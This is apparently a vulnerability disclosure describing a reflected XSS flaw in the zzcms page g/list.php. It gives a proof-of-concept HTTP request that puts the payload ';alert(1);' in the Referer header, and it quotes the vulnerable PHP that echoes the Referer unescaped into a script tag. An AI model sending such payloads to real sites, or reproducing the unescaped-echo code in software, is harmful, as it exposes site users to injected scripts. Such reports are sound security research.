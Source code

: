 ####  g/list.php exists frontend reflective xss



First visit the page

![image-20240827210856535](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240827210856535.png)



Then use burpsuit to intercept the traffic

POC visits the page first

```java
POST /g/list.php HTTP/1.1
Host: zzcms:8786
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=4pj41bdnhl1msnbrl2lljv1iqm; __51cke__=; xywpwx_bakusername=admin; xywpwx_snsjjssbdvqm=aca496e77ae7ceff46c2f8e72f4235d5; qebak_efourcheck=be67da7f3e3c39cd439799a20c67f8b4; XDEBUG_SESSION=PHPSTORM; xywpwx_bakrnd=zPwzzERUvdP4; xywpwx_loginebakckpass=03269d863bac377ff8cfb81722e356e3; xywpwx_baklogintime=1724589372; __tins__713776=%7B%22sid%22%3A%201724603456590%2C%20%22vd%22%3A%206%2C%20%22expires%22%3A%201724605579607%7D; __51laig__=34
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 19
Referer: ';alert(1);'

action=clearcookies
```

![image-20240827211356005](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240827211356005.png)



![image-20240827211412877](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240827211412877.png)

Code Analysis

Locate g/list.php

```java
if (isset($action)&&$action=='clearcookies'){
setcookie("zzcmscpid","xxx",1);
echo "<script>location.href='".$_SERVER['HTTP_REFERER']."'</script>";//上一页$_SERVER["REQUEST_URI"]当前页
}
```

You can see that there is a judgment on our action first, and then if it is equal to clearcookies, after that it will echo splice our $_SERVER['HTTP_REFERERER'] resulting in xss injection.
